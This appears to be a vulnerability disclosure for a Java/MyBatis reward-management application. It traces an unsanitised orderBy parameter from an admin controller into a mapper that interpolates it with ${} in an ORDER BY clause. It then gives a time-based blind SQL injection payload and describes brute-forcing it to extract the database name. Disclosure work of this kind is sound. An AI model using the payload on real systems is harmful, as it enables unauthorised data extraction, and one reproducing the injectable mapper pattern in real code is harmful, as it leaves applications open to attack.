


#### src/main/resources/mybatis/mapper/RewardMapper.xml

```xml
    <select id="select" resultMap="rewardMap">
        SELECT
            reward_id,
            reward_name,
            reward_content,
            reward_createDate,
            reward_user_id,
            reward_state,
            reward_amount
        FROM reward
        <where>
            <if test="reward != null">
                <if test="reward.reward_name != null">reward_name LIKE concat('%',#{reward.reward_name},'%')</if>
                <if test="reward.reward_lowest_amount != null">and reward_amount &gt;= #{reward.reward_lowest_amount}</if>
                <if test="reward.reward_amount != null">and reward_amount &lt;= #{reward.reward_amount}</if>
            </if>
            <if test="reward_isEnabled_array != null">
                and reward_state IN
                <foreach collection="reward_isEnabled_array" index="index" item="item" open="(" separator=","
                         close=")">
                    #{item}
                </foreach>
            </if>
        </where>
        <if test="orderUtil != null">
            ORDER BY ${orderUtil.orderBy}
            <if test="orderUtil.isDesc">desc</if>
        </if>
        <if test="pageUtil != null">
            LIMIT #{pageUtil.pageStart},#{pageUtil.count}
        </if>
    </select>
```

​	The injection parameter is the orderBy parameter in orderUtil, which can be traced upwards.

```java
    @ResponseBody
    @RequestMapping(value = "admin/reward/{index}/{count}", method = RequestMethod.GET, produces = "application/json;charset=utf-8")
    public String getRewardBySearch(@RequestParam(required = false) String reward_name/* 打赏人名称 */,
                                     @RequestParam(required = false) Double reward_lowest_amount/* 打赏最低金额 */,
                                     @RequestParam(required = false) Double reward_highest_amount/* 打赏最高金额 */,
                                     @RequestParam(required = false) Byte[] reward_isEnabled_array/* 打赏状态数组 */,
                                     @RequestParam(required = false) String orderBy/* 排序字段 */,
                                     @RequestParam(required = false,defaultValue = "true") Boolean isDesc/* 是否倒序 */,
                                     @PathVariable Integer index/* 页数 */,
                                     @PathVariable Integer count/* 行数 */) throws UnsupportedEncodingException {
        //移除不必要条件
        if (reward_isEnabled_array != null && (reward_isEnabled_array.length <= 0 || reward_isEnabled_array.length >=3)) {
            reward_isEnabled_array = null;
        }
        if (reward_name != null) {
            //如果为非空字符串则解决中文乱码：URLDecoder.decode(String,"UTF-8");
            reward_name = "".equals(reward_name) ? null : URLDecoder.decode(reward_name, "UTF-8");
        }
        if (orderBy != null && "".equals(orderBy)) {
            orderBy = null;
        }
        //封装查询条件
        Reward reward = new Reward()
                .setReward_name(reward_name)
                .setReward_lowest_amount(reward_lowest_amount)
                .setReward_amount(reward_highest_amount);
        OrderUtil orderUtil = null;
        if (orderBy != null) {
            logger.info("根据{}排序，是否倒序:{}",orderBy,isDesc);
            orderUtil = new OrderUtil(orderBy, isDesc);
        }

        JSONObject object = new JSONObject();
        logger.info("按条件获取第{}页的{}条打赏", index + 1, count);
        PageUtil pageUtil = new PageUtil(index, count);
        List<Reward> rewardList = rewardService.getList(reward, reward_isEnabled_array, orderUtil, pageUtil);
        object.put("rewardList", JSONArray.parseArray(JSON.toJSONString(rewardList)));
        logger.info("按条件获取打赏总条数");
        Integer rewardCount = rewardService.getTotal(reward, reward_isEnabled_array);
        object.put("rewardCount", rewardCount);
        logger.info("获取分页信息");
        pageUtil.setTotal(rewardCount);
        object.put("totalPage", pageUtil.getTotalPage());
        object.put("pageUtil", pageUtil);

        return object.toJSONString();
    }
```

​	According to the code logic, we can see that there is no additional security processing here, so we directly construct the payload:

```sql
if(ascii(substr((select%20database()),1,1))=1,sleep(0.1),1)
```

​	Blasting to get the data.



​	After exporting data, the database name is obtained.

